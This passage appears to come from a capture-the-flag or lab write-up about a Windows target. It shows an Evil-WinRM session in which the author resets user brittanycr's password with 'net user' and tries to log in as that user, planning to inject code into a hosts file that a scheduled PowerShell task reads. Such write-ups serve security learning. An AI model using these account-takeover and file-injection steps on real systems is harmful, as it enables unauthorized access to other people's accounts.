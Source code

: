 ```
     -Subject "More than $MaxOutageCount Hosts down, monitoring aborted" -SmtpServer $smtpServer
}
}
while ($Exit -ne $True)
```

Important:
```
# Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
# also hash/comment (#) out any hosts that are going for maintenance or are down.
get-content C:\Users\brittanycr\hosts.txt
```

Okay so we need to get into Brittany's account, and put code that we want in `hosts.txt`.

Okay. We do not have the permissions to even read `/brittanycr`'s contents. But, I have 2 options:
1. Remove the account if possible, and create a new one with the same name
2. or, well, if you have the permissions to change password, just do that, and login as brittanycr.

I treid googling how to, and came up with this: `*Evil-WinRM* PS C:\Users> net user <username> <password>`

```
*Evil-WinRM* PS C:\Users> net user brittanycr securepass
net.exe : The password does not meet the password policy requirements. Check the minimum password length, password complexity and password history requirements.
    + CategoryInfo          : NotSpecified: (The password do...y requirements.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

More help is available by typing NET HELPMSG 2245.
```

Trying it out, apparently we have to make the password stronger ... which means we can change it?

You could do random guesses to figure the right one, but we have the answer already, as was with `lilyle`'s accounts ;)

```
*Evil-WinRM* PS C:\Users> net user brittanycr ChangeMe#1234
The command completed successfully.
```

:stonks:

```
❯ evil-winrm -u brittanycr -p ChangeMe#1234 -i 10.10.16.138

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                                                              

Error: Exiting with code 1
```
